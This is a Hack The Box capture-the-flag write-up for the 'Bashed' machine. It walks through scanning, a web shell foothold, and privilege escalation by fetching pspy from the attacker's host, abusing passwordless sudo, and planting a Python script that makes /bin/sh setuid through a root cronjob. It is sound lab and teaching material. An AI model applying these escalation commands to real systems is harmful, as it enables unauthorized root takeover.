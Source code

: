 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Bashed](https://app.hackthebox.com/machines/Bashed)

> [!tip]- Summary with Spoilers
> - I discovered a hidden PHP script called `phpbash.php`, allowing me to execute commands as `www-data`.
> - I used `sudo` to escalate privileges to `scriptmanager`, who had access to the `/scripts` directory.
> - By exploiting a cronjob running as `root`, I injected a malicious Python script to gain a `root` shell.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Fri Jun 28 12:01:48 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oA nmap_tcp t
Warning: 10.10.10.68 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.10.68)
Host is up (0.097s latency).
Not shown: 65386 closed tcp ports (reset), 148 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only a web server is running.

#### 80/tcp-http

```console
$ whatweb -a3 http://t
http://t [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Visiting `http://t`:

![](_/htb-bashed-20240628-1.png)

Running `feroxbuster -k -u http://t -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1` uncovered some interesting directories, including `/uploads` (with an empty index) and `/dev`, the latter with some interesting files:

![](_/htb-bashed-20240628-2.png)

## RCE

Footholds don't get much easier than this one. There's a script called `phpbash.php` in a directory that's quickly discoverable via fuzzing. And that's the whole foothold:

![](_/htb-bashed-20240628-3.png)

Conveniently, the flag belongs to another user but it's readable:

```console
$ ls -l /home/arrexel/user.txt
-r--r--r-- 1 arrexel arrexel 33 Jun 28 11:00 /home/arrexel/user.txt
```

## PE

First, I check `sudo` and notice I'm able to become the `scriptmanager` user without a password:

```console
www-data@bashed:/home$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home$ sudo -u scriptmanager bash
scriptmanager@bashed:/home$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Using `pspy64` I can see some interesting commands being executed as root:

```console
scriptmanager@bashed:/dev/shm$ wget 10.10.14.10/pspy64
--2024-06-28 11:30:07--  http://10.10.14.10/pspy64
Connecting to 10.10.14.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 964408 (942K) [application/octet-stream]
Saving to: 'pspy64'
pspy64              100%[===================>] 941.80K   540KB/s    in 1.7s
2024-06-28 11:30:09 (540 KB/s) - 'pspy64' saved [964408/964408]

scriptmanager@bashed:/dev/shm$ chmod +x pspy64 && ./pspy64
...
2024/06/28 11:22:01 CMD: UID=0     PID=1227   | python test.py
2024/06/28 11:22:01 CMD: UID=0     PID=1226   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
2024/06/28 11:22:01 CMD: UID=0     PID=1225   | /usr/sbin/CRON -f
```

I confirm that the `/scripts` directory is writable as the current user, and I put a malicious script there to make `/bin/sh` run as `setuid=0`:

```console
scriptmanager@bashed:/dev/shm$ cd /scripts/
scriptmanager@bashed:/scripts$ ls -ld .
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 28 11:25 .
scriptmanager@bashed:/scripts$ echo 'import os;os.system("chmod u+s /bin/sh")' > hax.py
```

Once the cronjob runs, I'm able to run `/bin/sh` with the `-p` option so it doesn't drop the privileges:

```console
scriptmanager@bashed:/scripts$ /bin/sh -p
# id
uid=1001(scriptmanager) gid=1001(scriptmanager) euid=0(root) groups=1001(scriptmanager)
# cat /root/root.txt
1c4223...
```
